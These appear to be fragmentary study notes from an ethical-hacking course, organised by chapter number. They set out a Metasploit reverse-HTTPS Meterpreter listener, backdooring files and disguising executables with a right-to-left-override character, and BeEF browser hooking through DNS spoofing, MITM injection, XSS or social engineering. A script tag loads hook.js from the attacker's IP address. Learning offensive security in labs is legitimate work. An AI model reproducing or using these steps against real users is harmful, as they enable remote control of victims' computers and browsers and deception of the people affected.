 Listen for incoming connections
```sh
msfconsole
> use exploit/multi/handler         # selet a module
> show options
> set PAYLOAD windows/meterpreter/reverse_https
> set LHOST 10.0.2.4       # your ip address
> set LPORT 8080
> show options
> exploit
```

## chapter 68

creat a folder in /var/www/html
```
service apache2 start
```

## chapter 71

only download from https pages

## chapter 73

maltego

## chapter 78

backdoor any files

urls="pic_url, exe_url"

## chapter 79

compile script to .exe

## chapter 80

app: Characters -> Right-to-left-override

## chapter 83

Beef: Browser Exploitation Framework

- DNS spoof requests to a page containing the hook.
- Inject the hook in browsed pages (need to be MITM)
- Use XSS exploit
- Social engineer the target to open a hook page.

Usename: beef
Password: haha
```html
# modify the ip to your own ip
<script src="http://10.0.2.4:3000/hook.js"></script>
```
